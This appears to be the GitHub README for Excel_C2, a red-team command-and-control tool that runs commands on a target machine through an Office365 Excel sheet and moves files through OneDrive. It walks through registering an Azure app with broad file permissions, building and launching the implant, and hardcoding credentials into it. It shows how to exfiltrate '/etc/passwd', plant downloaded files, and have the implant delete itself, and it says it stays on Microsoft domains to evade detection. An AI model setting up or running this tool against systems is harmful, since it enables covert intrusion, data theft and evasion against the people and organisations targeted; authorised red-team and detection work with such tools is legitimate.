

# Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    2. Expand **Azure Active Directory** on the left navigation panel
    3. Expand **Applications**
    4. Select **App registrations** \
      
    5. Click the  **New Registration** button \
      
    6. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      
    7. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively. \
      
    8. Click **API permissions** \
      
    9. Click the **Add a permission** button \
      
    10. Click the **Microsoft Graph** button \
      
    11. Click the **Application permissions** button \
      
    12. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      
    13. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    14. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      
    15. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      
    16. Enter a description and click the **Add** button \
      
    17. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field \
      

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    2. Click on the arrow next to the **New** button and select **Excel workbook** \
      
    3. You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman
        > NOTE: you've already completed Step3 by following this README
    4. Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that \
      
    5. In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    6. Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId` \
      

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheetId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow


### Demo


### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from

[https://github.com/looCiprian/GC2-sheet](https://github.com/looCiprian/GC2-sheet)

### Support the project

Pull request
